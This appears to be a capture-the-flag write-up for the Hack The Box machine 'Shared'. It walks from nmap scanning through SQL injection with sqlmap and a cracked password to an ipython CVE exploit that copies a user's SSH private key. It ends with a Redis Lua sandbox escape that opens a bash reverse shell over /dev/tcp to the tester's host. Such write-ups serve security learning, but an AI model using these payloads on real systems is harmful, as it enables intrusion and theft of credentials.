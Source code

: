 # [Shared](https://app.hackthebox.com/machines/shared)

```bash
nmap -p-  --min-rate 10000 10.10.11.172 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 10.10.11.172 -Pn
```

![alt text](img/image-1.png)

From nmap scan result, I need to add `shared.htb` domain into `/etc/hosts` file for resolving purposes.


While I open web application, I can see such webpage.

![alt text](img/image-2.png)

Let's start enumeration.


While I try to do `Proceed Checkout` action, it redirects me into `checkout.shared.htb` address, let's add this into `/etc/hosts` file also.

![alt text](img/image-3.png)

Now, I can see `checkout` webpage.

![alt text](img/image-4.png)


Let's look at this request via zaproxy to see full request body and headers.

![alt text](img/image-5.png)

I started to inject some payloads into `custom_cart` dictionary by starting `'` characters.

![alt text](img/image-6.png)


Let's inject `SQL Comment` to see that SQL injection is possible or not. So our payload `'-- -` should be like this.

![alt text](img/image-7.png)


As you it still prints the result, it means there'
s no Input Validation.

Let's try `Union-based SQLI` payloads.
```bash
custom_cart={"test' UNION SELECT 111,version(),3333-- -":"1"}
```

![alt text](img/image-8.png)

That's `MariaDB`. Let's automate `SQL Injection` via `sqlmap` tool by saving this request file as `.req`

```bash
sqlmap -r submit.req --level 5 --risk 3 --technique="U" 
```

![alt text](img/image-9.png)


Let's dump all databases via `--dbs` option.

![alt text](img/image-10.png)

Let's dump tables from `checkout` database via adding `-D checkout --tables` option.

![alt text](img/image-11.png)

Let's dump all data from `user` table located on `checkout` database. We do this `-D checkout -T user --dump` .

![alt text](img/image-12.png)


james_mason: fc895d4eddc2fc12f995e18c865cf273 (hash)


Let's crack this hash via [Crackstation](https://crackstation.net)

![alt text](img/image-13.png)


james_mason: Soleil101


Let's connect into machine via this credentials by using `ssh`.

![alt text](img/image-14.png)

Let's enumerate machine.


First of all, I want to upload `pspy64` into machine to see background jobs.


For this, I will open http.server as below.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-16.png)


Then download this binary via `wget` command.
```bash
wget http://10.10.14.18:8080/pspy64
```

![alt text](img/image-15.png)



After running of this binary, I see that user whose userid is `1001` runs `ipython` in background.

![alt text](img/image-17.png)

That's `dan_smith` user.


![alt text](img/image-18.png)


Let's look at version of `ipython` to search publicly known exploits.

![alt text](img/image-19.png)


That's [CVE-2022-21699](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x)


Let's start exploiting this vulnerability. So my malicious `python` script is that stealing user's private key file by copying into `/tmp` directory.

```bash
mkdir -m 777 /opt/scripts_review/profile_default && mkdir -m 777 /opt/scripts_review/profile_default/startup && echo "import os; os.system('cat ~/.ssh/id_rsa > /tmp/dan.key')" > /opt/scripts_review/profile_default/startup/dr4ks.py
```

![alt text](img/image-20.png)

Now, let's join into machine via  private key file of `dan_smith` user.

```bash
chmod 600 id_rsa
ssh -i id_rsa dan_smith@shared.htb
```


user.txt

![alt text](img/image-21.png)


While I run `id` command, I see that this user belongs to `sysadmin` group.

![alt text](img/image-22.png)

Let's search files and directories belong to this group via `find` command.

```bash
find / -group sysadmin 2>/dev/null 
```

![alt text](img/image-23.png)


Let's download this into our machine and try to analyze this file

![alt text](img/image-24.png)


I downloaded it already.

![alt text](img/image-25.png)


While I run this binary on my box, it returns error as below.

![alt text](img/image-26.png)


To see target's `Redis` database, I will configure `Local Port Forwarding` via `ssh` command.

```bash
ssh -i id_rsa -L 6379:localhost:6379 dan_smith@shared.htb
```

![alt text](img/image-27.png)


Now, I can easily run this file and can get output.

![alt text](img/image-28.png)


As you see, here's say that `using password`. To  get clear-text password, I need to sniff, so I will use `Wireshark` to see clear-text password.

![alt text](img/image-29.png)


**Note:** I need to start sniffer for `Loopback`.

From `packet`, you see that `auth F2WHqJUz2WEz=Gqq` is written, it means our password is "F2WHqJUz2WEz=Gqq".


Let's connect into `Redis` via this password.

![alt text](img/image-30.png)


It says that `Redis's` version is `6.0.15`, I searched publicly known exploit and found [CVE-2022-0543](https://github.com/0x7eTeam/CVE-2022-0543/blob/main/CVE-2022-0543.py).


root.txt

![alt text](img/image-31.png)


We can get root shell by using below payload.
```bash
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("bash -c \'bash -i >& /dev/tcp/10.10.14.18/1337 0>&1\'"); return 0' 0
```

![alt text](img/image-32.png)


Hola I got reverse shell from port `1337`.

![alt text](img/image-33.png)